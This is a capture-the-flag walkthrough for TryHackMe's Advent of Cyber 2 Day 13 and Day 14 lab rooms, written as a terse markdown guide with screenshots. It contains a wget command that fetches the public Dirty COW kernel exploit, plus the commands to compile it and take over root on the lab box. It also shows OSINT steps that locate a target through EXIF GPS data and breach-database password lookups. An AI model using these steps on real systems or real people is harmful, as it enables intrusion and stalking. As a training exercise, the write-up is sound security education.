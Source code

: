 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459180-070864b2-ba15-4177-8bcc-c797b95871d4.png)

![image](https://user-images.githubusercontent.com/90561566/222459226-44c19abd-3fcd-4d45-94e4-02bc1033303e.png)

![image](https://user-images.githubusercontent.com/90561566/222459284-91e5153f-628b-4ef5-bd36-9f042d9bee2c.png)

![image](https://user-images.githubusercontent.com/90561566/222459539-0d9dbc52-dd86-436d-afef-0dc72c88031f.png)

## Day 14: Where's Rudolph?

search his username on google, i see 2 social accounts: twitter and reddit

![image](https://user-images.githubusercontent.com/90561566/222453488-5f7b6f64-18eb-47b5-a223-b9f2d2ce5ced.png)

in his reddit account, click tab comments

![image](https://user-images.githubusercontent.com/90561566/222452436-7b89398a-1d32-47ac-a0c2-dc0b8cf19b59.png)

search robert in google, you will found the next question

![image](https://user-images.githubusercontent.com/90561566/222453138-b534da7f-8391-4ac0-accd-25d4d11d89f4.png)

on his twitter, search for a tv show, it's bachelorette

![image](https://user-images.githubusercontent.com/90561566/222454717-afd87fea-fe18-4112-b34f-cc4f058b7769.png)

he has posted 2 images, on google image, you can find it's chicago

![image](https://user-images.githubusercontent.com/90561566/222455870-52d65996-9a0f-46ef-9d50-07af641e0867.png)

download the high resolution image and check for the exif infor

```
exiftool lights-festival-website.jpg
```

also in the exif data, they have a GPS Position and copyright infor contain our flag

search his email in scylla.sh, his password was reveal as spygame

Use the GPS Position we found earlier on openstreetmap, Look for the nearest Hotel: Chicago Marriott Downtown Magnificent Mile

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459653-6cea6b2b-e719-47b0-8522-d2079745acec.png)

![image](https://user-images.githubusercontent.com/90561566/222459699-ca29013c-cca1-4ed4-8f16-881c0f057d61.png)

## Day 15: There's a Python in my stocking!







